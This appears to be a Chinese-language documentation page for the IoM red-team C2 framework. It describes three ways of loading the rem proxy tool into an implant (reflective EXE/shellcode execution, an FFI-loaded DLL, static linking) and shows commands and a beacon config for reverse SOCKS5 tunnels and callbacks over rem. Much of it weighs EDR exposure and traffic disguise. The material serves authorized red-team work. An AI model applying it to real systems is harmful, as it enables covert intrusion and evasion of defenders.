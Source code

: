 

在IoM中，绝大部分网络相关功能都基于rem实现。 但因为rem并非基于rust实现， 并且出于多种因素考虑， rem没有成为默认开启的选项。





## 加载rem

!!! tips "v0.1.1开始, rem的使用被大大简化，虽然不是默认模块， 但是已经简化到不带来额外的使用和理解困难的程度"


在IoM的v0.1.0中集成了一系列rem相关的功能. IoM通过三种方式打通implant与rem的交互。

### 方法1 反射加载EXE程序

rust implant的execute_exe 能完美加载rem， 就像在本地使用一样。 

```
execute_exe rem.exe -- -c [rem_link] ... 
```

或基于RDI的实现
```
execute_shellcode rem.exe -- -c [rem_link] ...
```

!!! example "优点"
	- 无文件落地
	- 支持RDI和PIC两种加载方式

!!! danger "缺点"
	- 有新进程产生，并且无法使用inline版本的加载器。对某些高强度端上对抗环境有暴露面
	- 与pipeline交互有延迟， 需要等待30-60秒才能将新的pivoting数据同步
	- 只支持windows

### 方法2 动态加载 module

将rem打包成dll, 基于Cgo与FFI实现跨语言调用

对于使用者来说， 不需要关注这些细节， 相关代码已经在[IoM的插件仓库](https://github.com/chainreactors/mal-community/blob/master/community-proxy/modules/rem.lua) 中完成了对应的封装。

上线后，在IoM命令行中执行以下代码即可安装并使用rem。

!!! tips "rem_community已在v0.1.1打包到client"

```sh
# 加载rem dll
rem_community load 

# 选择对应的rem pipeline, 搭建了反向代理隧道
rem_community socks5 rem_pipeline
```

!!! example "优点"
	- 相比`execute-exe/execute-shellcode`好的地方在于， 不会有新进程fork， 一切都在当前进程中完成。 
	- 联动IoM rem pipeline，能实时同步pivoting并进行后续管理

!!! danger "缺点"
	- 需要反射加载dll, 可能会留下EDR的部分暴露面
	- 只支持windows

### 方法3 静态链接rem

方法1和2都是解决上线后进一步搭建proxy/tunnel，本方法直接支持rem信道上线以及所有的rem提供的proxy/tunnel功能。


```yaml
implants:  
  ......
  enable_3rd: true       # enable 3rd module  
  3rd_modules:            # 3rd module when malefic compile  
    - rem
```

```sh
malefic-mutant generate beacon
```

!!! danger "windows 仅x86_64-pc-windows-gnu支持, linux 均支持 "

静态链接的beacon体积会膨胀不少， 但是可以直接使用rem

![](/blog/assets/Pasted%20image%2020250412001458.png)

例如搭建反向socks5代理只需要

```
reverse [rem_defualt]
```

手动指定rem命令
```
rem_dial [rem_default] -- -c ...
```

!!! example "优点"
	- 支持windows/linux
	- 联动IoM rem pipeline
	- 能复用rem的信道实现上线
	- 只在本进程中执行， 不会fork新进程
	
!!! danger "缺点"
	- 体积会膨胀， 大概在10M左右， upx后3-4M
	- 静态链接库不再支持ollvm, 带来一定的静态特征

## rem信道上线

基于静态链接的rem有一个独一无二的优势。 可以直接通过rem构建的内存中的虚拟信道上线。 实现**malefic over rem**

需要修改implant 的`config.yaml`

```yaml
basic:  
  name: "malefic"  
  targets:  
    - "127.0.0.1:5001"  
  protocol: "rem"  
  tls: false  
  proxy: ""  
  interval: 5  
  jitter: 0.2  
  ca:  
  encryption: aes  
  key: maliceofinternal  
  rem:  
    link: '[rem_link]'
```

运行mutant生成编译配置并编译

```bash
malefic-mutant generate beacon

cargo build --release -p malefic
```

debug 模式下的日志。 可以看到IoM的implant基于通过rem的构建的传输层进行通讯

![](/IoM/assets/76cd7db07e9cb196183a759c85ae396.png)


这样一来， rem支持的所有传输层，加密，伪装混淆都能复用到implant中， 实现流量侧的任意伪装。